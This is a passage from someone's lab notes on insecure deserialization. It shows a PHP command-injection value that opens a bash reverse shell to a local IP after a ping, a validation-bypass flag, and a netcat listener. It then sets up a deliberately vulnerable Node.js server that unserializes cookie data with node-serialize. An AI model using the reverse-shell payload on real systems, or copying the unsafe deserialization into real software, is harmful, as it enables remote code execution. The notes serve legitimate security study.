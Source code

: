 ```php
?>
```
- `$ipAddress = "; bash -c 'bash -i >& /dev/tcp/192.168.200.128/4646 0>&1'"`: To do an **Reverse Shell** to us after the *ping* command.
- `$isValid = True;`: To **Bypass** the IP validation.
![[Pasted image 20230731191345.png]]
___
Now, let's use that **string** into BurpSuite.
```shell
nc -nlvp 4646
```
![[Pasted image 20230731191453.png]]
___
# Laboratory 2 - Nodejs Deserialization
In this laboratory, I will use my *main* machine and also use the **Nodejs** server source code from [Nodejs-deserialization](https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/) to practice this vulnerability.
## Nodejs Server Preparation
First, we have to install some nodejs modules.
```shell
npm install express node-serialize cookie-parser
```
___
Then, we must use this script from [Nodejs-deserialization]() to deploy the web server on the port **3000**.
*node-server.js*
```js
var express = require('express');
var cookieParser = require('cookie-parser');
var escape = require('escape-html');
var serialize = require('node-serialize');
var app = express();
app.use(cookieParser())
 
app.get('/', function(req, res) {
 if (req.cookies.profile) {
   var str = new Buffer(req.cookies.profile, 'base64').toString();
   var obj = serialize.unserialize(str);
   if (obj.username) {
     res.send("Hello " + escape(obj.username));
   }
 } else {
     res.cookie('profile', "eyJ1c2VybmFtZSI6ImFqaW4iLCJjb3VudHJ5IjoiaW5kaWEiLCJjaXR5IjoiYmFuZ2Fsb3JlIn0=", {
       maxAge: 900000,
       httpOnly: true
     });
 }
 res.send("Hello World");
});
app.listen(3000);
```
___
Let's deploy the server see what it contains?
```shell
node nodejs-server.js
```
___
When we reload the page, we can note the message **Hello ajin**.